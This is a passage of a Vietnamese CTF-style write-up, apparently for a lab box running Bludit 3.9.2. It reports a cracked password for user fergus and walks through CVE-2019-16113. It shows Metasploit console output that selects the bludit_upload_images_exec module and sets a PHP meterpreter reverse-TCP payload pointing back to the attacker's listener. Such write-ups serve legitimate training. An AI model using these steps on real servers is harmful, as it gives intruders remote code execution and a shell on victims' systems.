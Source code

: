 Kết quả trả về password của fergus là **RolandDeschain**

![image](https://hackmd.io/_uploads/HyrDVZW90.png)

### Metasploit 
Sau khi login thành công, Metasploit có hỗ trợ khai thác **CVE-2019-16113** liên quan tới RCE:

Bludit 3.9.2 cho phép thực thi mã từ xa thông qua `bl-kernel/ajax/upload-images.php` vì code PHP có thể được nhập bằng tên tệp `.jpg` và sau đó code PHP này có thể ghi code PHP khác vào đường dẫn ../

![image](https://hackmd.io/_uploads/SkWsHWbqA.png)

```
┌──(kali㉿kali)-[~]
└─$ msfconsole -q     
msf6 > search Bludit  3.9.2

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability

Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/bludit_upload_images_exec 
```
Set các options
```
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(linux/http/bludit_upload_images_exec) > options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS                   yes       The password for Bludit
   BLUDITUSER                   yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), see https://docs.metasploit.com/docs/using-met
                                          asploit/basics/using-metasploit.html
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.190.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2

```